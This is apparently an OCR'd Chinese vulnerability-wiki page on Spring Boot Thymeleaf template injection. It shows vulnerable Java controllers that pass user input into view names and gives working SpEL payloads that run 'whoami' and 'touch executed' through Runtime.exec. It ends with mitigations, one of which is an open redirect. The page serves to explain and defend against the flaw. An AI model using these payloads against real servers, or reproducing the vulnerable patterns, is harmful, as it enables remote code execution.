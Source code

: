 0x04 不安全的java代码
---------------------

#### 第一种：

        @GetMapping("/path")
        public String path(@RequestParam String lang) {
            return  lang ; //template path is tainted
        }

在查找模板中，引用了用户输入的内容

payload

    GET /path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::.x HTTP/1.1
    Host: www.0-sec.org:8090
    Connection: close

![2.png](/Users/aresx/Documents/VulWiki/.resource/SpringBootThymeleaf模板注入/media/rId33.png)

#### 第二种

根据spring
boot定义，如果controller无返回值，则以GetMapping的路由为视图名称。当然，对于每个http请求来讲，其实就是将请求的url作为视图名称，调用模板引擎去解析。

> https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html\#mvc-ann-return-types

在这种情况下，我们只要可以控制请求的controller的参数，一样可以造成RCE漏洞。例如我们可以控制document参数

    @GetMapping("/doc/{document}")
    public void getDocument(@PathVariable String document) {
        log.info("Retrieving " + document);
    }
    GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x

0x05 修复方案
-------------

### 1. 设置ResponseBody注解

如果设置`ResponseBody`，则不再调用模板解析

### 2. 设置redirect重定向

    @GetMapping("/safe/redirect")
    public String redirect(@RequestParam String url) {
        return "redirect:" + url; //CWE-601, as we can control the hostname in redirect

根据spring
boot定义，如果名称以`redirect:`开头，则不再调用`ThymeleafView`解析，调用`RedirectView`去解析`controller`的返回值

### 3. response

    @GetMapping("/safe/doc/{document}")
    public void getDocument(@PathVariable String document, HttpServletResponse response) {
        log.info("Retrieving " + document); //FP
    }

由于controller的参数被设置为HttpServletResponse，Spring认为它已经处理了HTTP
Response，因此不会发生视图名称解析

参考链接
--------

> https://www.cnblogs.com/potatsoSec/p/13620019.html
